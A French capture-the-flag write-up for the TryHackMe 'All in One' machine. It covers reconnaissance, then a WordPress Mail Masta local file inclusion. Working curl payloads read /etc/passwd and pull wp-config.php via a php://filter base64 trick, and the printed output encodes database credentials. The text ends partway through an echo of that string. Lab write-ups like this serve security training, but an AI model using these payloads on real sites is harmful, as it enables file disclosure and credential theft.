




## All in One ##

# Hack the machine ! #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.46.54 allinone.thm' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A allinone.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-07 08:56 CEST
Nmap scan report for allinone.thm (10.10.46.54)
Host is up (0.058s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.228.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
|_  256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/7%OT=21%CT=1%CU=43109%PV=Y%DS=2%DC=T%G=Y%TM=610E2EAC
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   33.15 ms 10.9.0.1
2   40.04 ms allinone.thm (10.10.46.54)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.16 seconds

```

On peut voir qu'il y a  3 service : 
Le FTP sur le port 21, le mode anonymous fonctionne.       
Le SSH sur le port 22.    
Le HTTP sur le port 80.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp allinone.thm 
Connected to allinone.thm.
220 (vsFTPd 3.0.3)
Name (allinone.thm:tim): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        115          4096 Oct 06  2020 .
drwxr-xr-x    2 0        115          4096 Oct 06  2020 ..
226 Directory send OK.
ftp> 
```

On se connect sur le service FTP.
On ne voit aucun fichier.    

D'après le titre que l'on voit dans le résultat du scan on est sur un page par défaut d'Apache.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://allinone.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 277]  
/wordpress            (Status: 301) [Size: 316] [--> http://allinone.thm/wordpress/]
```

On remarque un répertoire caché wordpress.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wpscan  -e ap --url allinone.thm/wordpress
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]Y
[i] Updating the Database ...
[i] Update completed.

[+] URL: http://allinone.thm/wordpress/ [10.10.46.54]
[+] Started: Sat Aug  7 09:12:01 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://allinone.thm/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://allinone.thm/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://allinone.thm/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://allinone.thm/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
 | Found By: Rss Generator (Passive Detection)
 |  - http://allinone.thm/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>
 |  - http://allinone.thm/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://allinone.thm/wordpress/wp-content/themes/twentytwenty/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://allinone.thm/wordpress/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 1.8
 | Style URL: http://allinone.thm/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.5
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://allinone.thm/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.5, Match: 'Version: 1.5'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://allinone.thm/wordpress/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://allinone.thm/wordpress/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://allinone.thm/wordpress/wp-content/plugins/mail-masta/readme.txt

[+] reflex-gallery
 | Location: http://allinone.thm/wordpress/wp-content/plugins/reflex-gallery/
 | Latest Version: 3.1.7 (up to date)
 | Last Updated: 2021-03-10T02:38:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.1.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://allinone.thm/wordpress/wp-content/plugins/reflex-gallery/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sat Aug  7 09:12:05 2021
[+] Requests Done: 46
[+] Cached Requests: 5
[+] Data Sent: 11.111 KB
[+] Data Received: 17.12 MB
[+] Memory used: 211.047 MB
[+] Elapsed time: 00:00:04
````

On scan le site wordpress pour voir quel plug-in est utilisé :      
mail-masa 1.0    
reflex-gallery 3.1.7     

```bash
tim@kali:/usr/share/exploitdb$ searchsploit mail masta
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
WordPress Plugin Mail Masta 1.0 - Local File Inclusion                                                                                                                                                      | php/webapps/40290.txt
WordPress Plugin Mail Masta 1.0 - SQL Injection                                                                                                                                                             | php/webapps/41438.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ -------------------------------
```

On voit un exploit qui permet de lire des fichiers sur la cible distante.   

```bash
tim@kali:/usr/share/exploitdb$ cat /usr/share/exploitdb/exploits/php/webapps/40290.txt 
[+] Date: [23-8-2016]
[+] Autor Guillermo Garcia Marcos 
[+] Vendor: https://downloads.wordpress.org/plugin/mail-masta.zip
[+] Title: Mail Masta WP Local File Inclusion
[+] info: Local File Inclusion 

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

Source: /inc/campaign/count_of_send.php
Line 4: include($_GET['pl']);

Source: /inc/lists/csvexport.php:
Line 5: include($_GET['pl']);

Source: /inc/campaign/count_of_send.php
Line 4: include($_GET['pl']);

Source: /inc/lists/csvexport.php
Line 5: include($_GET['pl']);

Source: /inc/campaign/count_of_send.php
Line 4: include($_GET['pl']);


This looks as a perfect place to try for LFI. If an attacker is lucky enough, and instead of selecting the appropriate page from the array by its name, the script directly includes the input parameter, it is possible to include arbitrary files on the server.


Typical proof-of-concept would be to load passwd file:


http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

```bash
tim@kali:/usr/share/exploitdb$ curl http://allinone.thm/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
elyana:x:1000:1000:Elyana:/home/elyana:/bin/bash
mysql:x:110:113:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
```

On essaie sur le fichier \/etc\/passwd
On voit que ca fonctionne.   

```bash
tim@kali:/usr/share/exploitdb$ curl http://allinone.thm/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
PD9waHANCi8qKg0KICogVGhlIGJhc2UgY29uZmlndXJhdGlvbiBmb3IgV29yZFByZXNzDQogKg0KICogVGhlIHdwLWNvbmZpZy5waHAgY3JlYXRpb24gc2NyaXB0IHVzZXMgdGhpcyBmaWxlIGR1cmluZyB0aGUNCiAqIGluc3RhbGxhdGlvbi4gWW91IGRvbid0IGhhdmUgdG8gdXNlIHRoZSB3ZWIgc2l0ZSwgeW91IGNhbg0KICogY29weSB0aGlzIGZpbGUgdG8gIndwLWNvbmZpZy5waHAiIGFuZCBmaWxsIGluIHRoZSB2YWx1ZXMuDQogKg0KICogVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBmb2xsb3dpbmcgY29uZmlndXJhdGlvbnM6DQogKg0KICogKiBNeVNRTCBzZXR0aW5ncw0KICogKiBTZWNyZXQga2V5cw0KICogKiBEYXRhYmFzZSB0YWJsZSBwcmVmaXgNCiAqICogQUJTUEFUSA0KICoNCiAqIEBsaW5rIGh0dHBzOi8vd29yZHByZXNzLm9yZy9zdXBwb3J0L2FydGljbGUvZWRpdGluZy13cC1jb25maWctcGhwLw0KICoNCiAqIEBwYWNrYWdlIFdvcmRQcmVzcw0KICovDQoNCi8vICoqIE15U1FMIHNldHRpbmdzIC0gWW91IGNhbiBnZXQgdGhpcyBpbmZvIGZyb20geW91ciB3ZWIgaG9zdCAqKiAvLw0KLyoqIFRoZSBuYW1lIG9mIHRoZSBkYXRhYmFzZSBmb3IgV29yZFByZXNzICovDQpkZWZpbmUoICdEQl9OQU1FJywgJ3dvcmRwcmVzcycgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovDQpkZWZpbmUoICdEQl9VU0VSJywgJ2VseWFuYScgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovDQpkZWZpbmUoICdEQl9QQVNTV09SRCcsICdIQGNrbWVAMTIzJyApOw0KDQovKiogTXlTUUwgaG9zdG5hbWUgKi8NCmRlZmluZSggJ0RCX0hPU1QnLCAnbG9jYWxob3N0JyApOw0KDQovKiogRGF0YWJhc2UgQ2hhcnNldCB0byB1c2UgaW4gY3JlYXRpbmcgZGF0YWJhc2UgdGFibGVzLiAqLw0KZGVmaW5lKCAnREJfQ0hBUlNFVCcsICd1dGY4bWI0JyApOw0KDQovKiogVGhlIERhdGFiYXNlIENvbGxhdGUgdHlwZS4gRG9uJ3QgY2hhbmdlIHRoaXMgaWYgaW4gZG91YnQuICovDQpkZWZpbmUoICdEQl9DT0xMQVRFJywgJycgKTsNCg0Kd29yZHByZXNzOw0KZGVmaW5lKCAnV1BfU0lURVVSTCcsICdodHRwOi8vJyAuJF9TRVJWRVJbJ0hUVFBfSE9TVCddLicvd29yZHByZXNzJyk7DQpkZWZpbmUoICdXUF9IT01FJywgJ2h0dHA6Ly8nIC4kX1NFUlZFUlsnSFRUUF9IT1NUJ10uJy93b3JkcHJlc3MnKTsNCg0KLyoqI0ArDQogKiBBdXRoZW50aWNhdGlvbiBVbmlxdWUgS2V5cyBhbmQgU2FsdHMuDQogKg0KICogQ2hhbmdlIHRoZXNlIHRvIGRpZmZlcmVudCB1bmlxdWUgcGhyYXNlcyENCiAqIFlvdSBjYW4gZ2VuZXJhdGUgdGhlc2UgdXNpbmcgdGhlIHtAbGluayBodHRwczovL2FwaS53b3JkcHJlc3Mub3JnL3NlY3JldC1rZXkvMS4xL3NhbHQvIFdvcmRQcmVzcy5vcmcgc2VjcmV0LWtleSBzZXJ2aWNlfQ0KICogWW91IGNhbiBjaGFuZ2UgdGhlc2UgYXQgYW55IHBvaW50IGluIHRpbWUgdG8gaW52YWxpZGF0ZSBhbGwgZXhpc3RpbmcgY29va2llcy4gVGhpcyB3aWxsIGZvcmNlIGFsbCB1c2VycyB0byBoYXZlIHRvIGxvZyBpbiBhZ2Fpbi4NCiAqDQogKiBAc2luY2UgMi42LjANCiAqLw0KZGVmaW5lKCAnQVVUSF9LRVknLCAgICAgICAgICd6a1klbSVSRlliOnUsL2xxLWlafjhmakVOZElhU2I9Xms8M1pyLzBEaUxacVB4enxBdXFsaTZsWi05RFJhZ0pQJyApOw0KZGVmaW5lKCAnU0VDVVJFX0FVVEhfS0VZJywgICdpQVlhazxfJn52OW8re2JAUlBSNjJSOSBUeS0gNlUteUg1YmFVRHs7bmRTaUNbXXFvc3hTQHNjdSZTKWQkSFtUJyApOw0KZGVmaW5lKCAnTE9HR0VEX0lOX0tFWScsICAgICdhUGRfKnNCZj1adWMrK2FdNVZnOT1QfnUwM1EsenZwW2VVZS99KUQ9Ok55aFVZe0tYUl10N300MlVwa1tyNz9zJyApOw0KZGVmaW5lKCAnTk9OQ0VfS0VZJywgICAgICAgICdAaTtUKHt4Vi9mdkUhcyteZGU3ZTRMWDN9TlRAIGo7YjRbejNfZkZKYmJXKG5vIDNPN0ZAc3gwIW95KE9gaCNNJyApOw0KZGVmaW5lKCAnQVVUSF9TQUxUJywgICAgICAgICdCIEFUQGk+KiBOI1c8biEqfGtGZE1uUU4pPl49XihpSHA4VXZnPH4ySH56Rl1pZHlRPXtAfTF9KnJ7bFowLFdZJyApOw0KZGVmaW5lKCAnU0VDVVJFX0FVVEhfU0FMVCcsICdoeDhJOitUejhuMzM1V2htels+JFVaOzhyUVlLPlJ6XVZHeUJkbW83PSZHWiFMTyxwQU1zXWYhelZ9eG46NEFQJyApOw0KZGVmaW5lKCAnTE9HR0VEX0lOX1NBTFQnLCAgICd4N3I+fGMwTUxecztTdzIqVSF4LntgNUQ6UDF9Vz0gL2Npe1E8dEVNPXRyU3YxZWVkfF9mc0xgeV5TLFhJPFJZJyApOw0KZGVmaW5lKCAnTk9OQ0VfU0FMVCcsICAgICAgICd2T2IlV3R5fSR6eDlgfD40NUlwQHN5WiBdRzpDM3xTZEQtUDM8e1lQOi5qUERYKUh9d0dtMSpKXk1TYnMkMWB8JyApOw0KDQovKiojQC0qLw0KDQovKioNCiAqIFdvcmRQcmVzcyBEYXRhYmFzZSBUYWJsZSBwcmVmaXguDQogKg0KICogWW91IGNhbiBoYXZlIG11bHRpcGxlIGluc3RhbGxhdGlvbnMgaW4gb25lIGRhdGFiYXNlIGlmIHlvdSBnaXZlIGVhY2gNCiAqIGEgdW5pcXVlIHByZWZpeC4gT25seSBudW1iZXJzLCBsZXR0ZXJzLCBhbmQgdW5kZXJzY29yZXMgcGxlYXNlIQ0KICovDQokdGFibGVfcHJlZml4ID0gJ3dwXyc7DQoNCi8qKg0KICogRm9yIGRldmVsb3BlcnM6IFdvcmRQcmVzcyBkZWJ1Z2dpbmcgbW9kZS4NCiAqDQogKiBDaGFuZ2UgdGhpcyB0byB0cnVlIHRvIGVuYWJsZSB0aGUgZGlzcGxheSBvZiBub3RpY2VzIGR1cmluZyBkZXZlbG9wbWVudC4NCiAqIEl0IGlzIHN0cm9uZ2x5IHJlY29tbWVuZGVkIHRoYXQgcGx1Z2luIGFuZCB0aGVtZSBkZXZlbG9wZXJzIHVzZSBXUF9ERUJVRw0KICogaW4gdGhlaXIgZGV2ZWxvcG1lbnQgZW52aXJvbm1lbnRzLg0KICoNCiAqIEZvciBpbmZvcm1hdGlvbiBvbiBvdGhlciBjb25zdGFudHMgdGhhdCBjYW4gYmUgdXNlZCBmb3IgZGVidWdnaW5nLA0KICogdmlzaXQgdGhlIGRvY3VtZW50YXRpb24uDQogKg0KICogQGxpbmsgaHR0cHM6Ly93b3JkcHJlc3Mub3JnL3N1cHBvcnQvYXJ0aWNsZS9kZWJ1Z2dpbmctaW4td29yZHByZXNzLw0KICovDQpkZWZpbmUoICdXUF9ERUJVRycsIGZhbHNlICk7DQoNCi8qIFRoYXQncyBhbGwsIHN0b3AgZWRpdGluZyEgSGFwcHkgcHVibGlzaGluZy4gKi8NCg0KLyoqIEFic29sdXRlIHBhdGggdG8gdGhlIFdvcmRQcmVzcyBkaXJlY3RvcnkuICovDQppZiAoICEgZGVmaW5lZCggJ0FCU1BBVEgnICkgKSB7DQoJZGVmaW5lKCAnQUJTUEFUSCcsIF9fRElSX18gLiAnLycgKTsNCn0NCg0KLyoqIFNldHMgdXAgV29yZFByZXNzIHZhcnMgYW5kIGluY2x1ZGVkIGZpbGVzLiAqLw0KcmVxdWlyZV9vbmNlIEFCU1BBVEggLiAnd3Atc2V0dGluZ3MucGhwJzsNCg==
```

On lit le contenu de fichier wp-config.php, puis on encode en base64 pour qu'il soit affichable.  

```bash
tim@kali:/usr/share/exploitdb$ echo "PD9waHANCi8qKg0KICogVGhlIGJhc2UgY29uZmlndXJhdGlvbiBmb3IgV29yZFByZXNzDQogKg0KICogVGhlIHdwLWNvbmZpZy5waHAgY3JlYXRpb24gc2NyaXB0IHVzZXMgdGhpcyBmaWxlIGR1cmluZyB0aGUNCiAqIGluc3RhbGxhdGlvbi4gWW91IGRvbid0IGhhdmUgdG8gdXNlIHRoZSB3ZWIgc2l0ZSwgeW91IGNhbg0KICogY29weSB0aGlzIGZpbGUgdG8gIndwLWNvbmZpZy5waHAiIGFuZCBmaWxsIGluIHRoZSB2YWx1ZXMuDQogKg0KICogVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBmb2xsb3dpbmcgY29uZmlndXJhdGlvbnM6DQogKg0KICogKiBNeVNRTCBzZXR0aW5ncw0KICogKiBTZWNyZXQga2V5cw0KICogKiBEYXRhYmFzZSB0YWJsZSBwcmVmaXgNCiAqICogQUJTUEFUSA0KICoNCiAqIEBsaW5rIGh0dHBzOi8vd29yZHByZXNzLm9yZy9zdXBwb3J0L2FydGljbGUvZWRpdGluZy13cC1jb25maWctcGhwLw0KICoNCiAqIEBwYWNrYWdlIFdvcmRQcmVzcw0KICovDQoNCi8vICoqIE15U1FMIHNldHRpbmdzIC0gWW91IGNhbiBnZXQgdGhpcyBpbmZvIGZyb20geW91ciB3ZWIgaG9zdCAqKiAvLw0KLyoqIFRoZSBuYW1lIG9mIHRoZSBkYXRhYmFzZSBmb3IgV29yZFByZXNzICovDQpkZWZpbmUoICdEQl9OQU1FJywgJ3dvcmRwcmVzcycgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovDQpkZWZpbmUoICdEQl9VU0VSJywgJ2VseWFuYScgKTsNCg0KLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovDQpkZWZpbmUoICdEQl9QQVNTV09SRCcsICdIQGNrbWVAMTIzJyApOw0KDQovKiogTXlTUUwgaG9zdG5hbWUgKi8NCmRlZmluZSggJ0RCX0hPU1QnLCAnbG9jYWxob3N0JyApOw0KDQovKiogRGF0YWJhc2UgQ2hhcnNldCB0byB1c2UgaW4gY3JlYXRpbmcgZGF0YWJhc2UgdGFibGVzLiAqLw0KZGVmaW5lKCAnREJfQ0hBUlNFVCcsICd1dGY4bWI0JyApOw0KDQovKiogVGhlIERhdGFiYXNlIENvbGxhdGUgdHlwZS4gRG9uJ3QgY2hhbmdlIHRoaXMgaWYgaW4gZG91YnQuICovDQpkZWZpbmUoICdEQl9DT0xMQVRFJywgJycgKTsNCg0Kd29yZHByZXNzOw0KZGVmaW5lKCAnV1BfU0lURVVSTCcsICdodHRwOi8vJyAuJF9TRVJWRVJbJ0hUVFBfSE9TVCddLicvd29yZHByZXNzJyk7DQpkZWZpbmUoICdXUF9IT01FJywgJ2h0dHA6Ly8nIC4kX1NFUlZFUlsnSFRUUF9IT1NUJ10uJy93b3JkcHJlc3MnKTsNCg0KLyoqI0ArDQogKiBBdXRoZW50aWNhdGlvbiBVbmlxdWUgS2V5cyBhbmQgU2FsdHMuDQogKg0KICogQ2hhbmdlIHRoZXNlIHRvIGRpZmZlcmVudC